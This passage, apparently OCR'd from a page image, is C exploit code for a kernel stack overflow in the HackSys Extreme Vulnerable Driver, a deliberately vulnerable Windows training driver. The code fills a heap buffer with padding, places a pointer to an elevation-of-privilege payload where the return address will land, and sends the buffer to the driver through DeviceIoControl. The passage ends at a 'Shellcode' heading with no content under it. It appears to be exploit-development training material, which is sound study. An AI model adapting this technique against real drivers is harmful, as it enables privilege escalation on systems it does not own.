 ```clike=

        UserModeBuffer = (PULONG)HeapAlloc(GetProcessHeap(),
                                           HEAP_ZERO_MEMORY,
                                           UserModeBufferSize);

        if (!UserModeBuffer) {
            DEBUG_ERROR("\t\t\t[-] Failed To Allocate Memory: 0x%X\n", GetLastError());
            exit(EXIT_FAILURE);
        }
        else {
            DEBUG_INFO("\t\t\t[+] Memory Allocated: 0x%p\n", UserModeBuffer);
            DEBUG_INFO("\t\t\t[+] Allocation Size: 0x%X\n", UserModeBufferSize);
        }

        DEBUG_INFO("\t\t[+] Preparing Buffer Memory Layout\n");

        RtlFillMemory((PVOID)UserModeBuffer, UserModeBufferSize, 0x41);

        MemoryAddress = (PVOID)(((ULONG)UserModeBuffer + UserModeBufferSize) - sizeof(ULONG));
        *(PULONG)MemoryAddress = (ULONG)EopPayload;

        DEBUG_INFO("\t\t\t[+] RET Value: 0x%p\n", *(PULONG)MemoryAddress);
        DEBUG_INFO("\t\t\t[+] RET Address: 0x%p\n", MemoryAddress);

        DEBUG_INFO("\t\t[+] EoP Payload: 0x%p\n", EopPayload);

        DEBUG_MESSAGE("\t[+] Triggering Kernel Stack Overflow\n");

        OutputDebugString("****************Kernel Mode****************\n");

        DeviceIoControl(hFile,
                        HACKSYS_EVD_IOCTL_STACK_OVERFLOW,
                        (LPVOID)UserModeBuffer,
                        (DWORD)UserModeBufferSize,
                        NULL,
                        0,
                        &BytesReturned,
                        NULL);

        OutputDebugString("****************Kernel Mode****************\n");

        HeapFree(GetProcessHeap(), 0, (LPVOID)UserModeBuffer);

        UserModeBuffer = NULL;
    }
    __except (EXCEPTION_EXECUTE_HANDLER) {
        DEBUG_ERROR("\t\t[-] Exception: 0x%X\n", GetLastError());
        exit(EXIT_FAILURE);
    }

    return EXIT_SUCCESS;
}
```
### Shellcode
